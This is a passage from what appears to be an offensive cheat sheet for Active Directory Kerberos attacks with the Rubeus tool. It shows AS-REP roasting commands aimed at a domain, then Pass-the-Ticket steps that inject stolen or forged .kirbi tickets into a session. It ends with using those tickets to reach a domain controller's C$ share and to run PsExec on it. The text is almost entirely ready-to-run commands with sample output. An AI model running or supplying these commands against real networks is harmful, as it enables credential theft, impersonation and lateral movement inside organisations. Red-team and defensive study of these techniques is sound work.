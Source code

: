 ```powershell
# Specify domain
Rubeus.exe asreproast /domain:corp.local

# Use alternate credentials
Rubeus.exe asreproast /creduser:CORP\user /credpassword:Pass123

# Specify DC
Rubeus.exe asreproast /dc:DC01.corp.local
```

---

## 3. Pass-the-Ticket (PTT)

### Inject Ticket from File

**When:** You have a .kirbi ticket file (stolen or forged)

```powershell
# Inject ticket into current session
Rubeus.exe ptt /ticket:ticket.kirbi

# Output:
# [*] Action: Import Ticket
# [+] Ticket successfully imported!

# Verify
klist
# Shows injected ticket
```

---

### Inject Multiple Tickets

```powershell
# Inject all .kirbi files in directory
Rubeus.exe ptt /ticket:C:\Tickets\*.kirbi

# Inject base64-encoded ticket
Rubeus.exe ptt /ticket:doIFuj...base64...
```

---

### Use Ticket Immediately

```powershell
# After injection, use for access
dir \\DC01\C$

# Or
PsExec.exe \\DC01 cmd
```

---